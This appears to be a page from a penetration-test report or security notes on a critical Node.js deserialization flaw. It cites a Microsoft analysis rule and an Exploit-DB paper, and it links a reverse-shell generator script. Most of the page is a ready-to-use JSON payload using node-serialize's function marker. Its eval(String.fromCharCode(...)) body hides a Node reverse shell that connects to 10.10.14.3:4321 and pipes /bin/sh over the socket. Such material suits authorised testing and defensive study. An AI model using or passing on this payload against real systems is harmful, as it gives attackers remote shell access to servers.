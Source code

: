 Reference: https://docs.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/ca5369?view=vs-2019

**Severity:** Critical

\newpage

**Exploit Code:**

Reference: *https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf*


Use this script to generate a reverse shell for nodejs:

nodejsshell.py: *https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py*

Craft payload:

```txt
{"rce":"_$$ND_FUNC$$_function (){value}()"}
```

Replace "value" with generated payload:

```txt
{"rce":"_$$ND_FUNC$$_function (){value}
```

Example:

```txt
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,51,34,59,10,80,79,82,84,61,34,52,51,50,49,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
